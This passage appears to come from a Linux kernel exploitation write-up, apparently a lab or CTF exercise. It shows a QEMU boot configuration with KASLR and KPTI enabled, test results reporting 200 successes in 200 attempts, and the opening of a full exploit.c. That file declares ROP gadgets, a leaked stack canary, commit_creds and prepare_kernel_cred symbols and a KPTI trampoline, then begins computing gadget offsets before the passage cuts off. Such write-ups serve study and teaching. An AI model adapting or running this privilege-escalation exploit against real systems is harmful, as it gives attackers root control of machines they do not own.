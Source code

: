 ```
    -no-reboot \
    -append "console=ttyS0 kaslr kpti=1 quiet panic=1" \
    -s \
    -serial tcp:127.0.0.1:4444,server,nowait
```

Then I used the automate-exploit-test.py script. I will not post the script here since it is too long but it is part of the zip archive. Here are the results form test-results.txt:
```
Total attempts  : 200
Success counter : 200
Pct succes      : 100.0%
Elapsed time    : 3701.29s
```
So after running the exploit for 200 attempts, all of them succeeded. This was very positive!<br>
But since the exploit is reliant on the stack and not randomized SLAB memory it is not too surprising.

### Full exploit.c
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>

// Gadgets
uint64_t kbase;
uint64_t pop_rdi;
uint64_t pop_rax;
uint64_t pop_rcx;
uint64_t pop_rdx;
uint64_t pop_rax_pop_rdi;
uint64_t pop_r11_mov_cl_qword_rax;
uint64_t push_rax_call_rcx;
uint64_t ret;

// Kernel symbols
uint64_t find_task_by_vpid;
uint64_t prepare_kernel_cred;
uint64_t commit_creds;
uint64_t kpti_trampoline;

// Other variables
uint32_t global_fd;
uint64_t canary;
uint64_t rbp;
uint64_t rbp_leak = 0;
uint64_t page_base;

void print_leak(unsigned long *leak, unsigned n) {
    for (unsigned i = 0; i < n; ++i) {
        printf("%u: %lx\n", i, leak[i]);
    }
}

// kbase of vmlinux (when not loaded or anything): 0xffffffff81000000
void fix_offsets() {
    pop_rdi = kbase + 0x368000;
    pop_rax = kbase + 0x2C11B4;
    pop_rcx = kbase + 0x86c37a;
    pop_rdx = kbase + 0x7EC1D6;
```
